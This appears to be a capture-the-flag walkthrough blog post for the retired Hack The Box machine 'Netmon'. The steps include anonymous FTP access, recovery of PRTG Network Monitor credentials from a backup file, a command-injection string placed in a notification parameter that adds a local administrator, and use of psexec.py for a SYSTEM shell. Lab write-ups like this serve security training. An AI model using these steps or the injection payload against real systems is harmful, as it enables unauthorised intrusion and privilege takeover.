 ```yaml
---
layout: post
title: "HTB-Netmon"
categories: HTB-Walkthrough
---
```


![netmon](/assets/img/netmon/netmon1.png)


Netmon is another retired HTB box from TJNull's 'more challenging than OSCP' list.


nmap first:

```
nmap -sV -Pn -sC 10.10.10.152 |tee -a netmon.txt
```

![nmap](/assets/img/netmon/netmon-nmap.png)


<hr width="300" size="8">


<h3>FTP</h3>

The `ftp` service accepts `anonymous` logins!

we are easily able to navigate to the user flag, and retrieve it!!!

```
ftp 10.10.10.152

Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.

ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
150 Opening ASCII mode data connection.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.10 secs (0.3180 kB/s)
ftp> exit
221 Goodbye.

```

Check the length of user.txt to see if it transfered correctly.
```
wc -c user.txt
33 user.txt
```

Same size as the file on the target, likely to be ok.
We may return to this service to explore some more, but I want to check out the web service.



<hr width="300" size="8">



![web](/assets/img/netmon/netmon-web1.png)


Im unfamiliar with PRTG Network Monitor, so I Google it and get to the vendor's website.

Exploring the system via Ftp again, and browse through the program's files for anything helpful.

Nothing immediately springs to my attention.

Browsing the vendor's website again I find where the really interesting files are hidden.

```
https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data
```

![progdata](/assets/img/netmon/netmon-datadir.png)


`facepalm`



Back in via FTP I recover some interesting files.

Examining the backup file 'PRTG Configuration.old.bak' reveals some db creds.

![dbcreds](/assets/img/netmon/netmon-dbcreds.png)



```
 User: prtgadmin
 Pass: PrTg@dmin2018
```

The creds fail, but since this is an old backup, perhaps the user has updated the password..

`pass: PrTg@dmin2019` works!




<hr width="300" size="8">



![dashboard](/assets/img/netmon/netmon-dashboard.png)



<hr width="300" size="8">




<h3>Searchsploit</h3>

There may be public exploits for this software, searchsploit is a good place to start looking.

```
searchsploit prtg
```

![searchsploit](/assets/img/netmon/netmon-searchsploit-prtg.png)


Since we have authenticated access, I check out the RCE exploit first.

```
searchsploit -m 46527
```

Examining the exploit, it looks like it creates or edits a notification, and executes a command to create an user with admin privileges.

The exploit doesnt seem to work for me out of the box, so instead of trying to fix it I attempt to follow it and replicate it manually.

I find the `notifications` table:

![notify](/assets/img/netmon/netmon-notifications.png)


Click the plus icon to add

Scroll to the bottom and select `Execute Program`

Use the dropdown arrow in the 'Program File' field to select `Demo exe notification-outfile.ps1`

Add the command to the 'Parameter' field below it:
```
test.txt;net user sh1n0bi pass123 /add;net localgroup administrators sh1n0bi /add
```



![adduser](/assets/img/netmon/netmon-exploit.png)


Click `Save`

The notification is added to the table.


To trigger the exploit, select the notification with the checkbox on the right, and click the bell icon (test) that appears on a blue panel.

![trigger](/assets/img/netmon/netmon-trigger.png)



<hr width="300" size="8">


We know that `smb` is running, possibly [Impacket's psexec.py](https://github.com/SecureAuthCorp/impacket) can give us an easy access.

```
python /opt/impacket/examples/psexec.py 'sh1n0bi:pass123@10.10.10.152'
```

![system-shell](/assets/img/netmon/netmon-system-shell.png)


With a SYSTEM shell, we can pick up the flags.

```
c:\Users\Public>type user.txt
ddxxxxxxxxxxxxxxxxxxxxxxxxxxxxa5


c:\Users\Administrator\Desktop>type root.txt
30xxxxxxxxxxxxxxxxxxxxxxxxxxxxcc
```
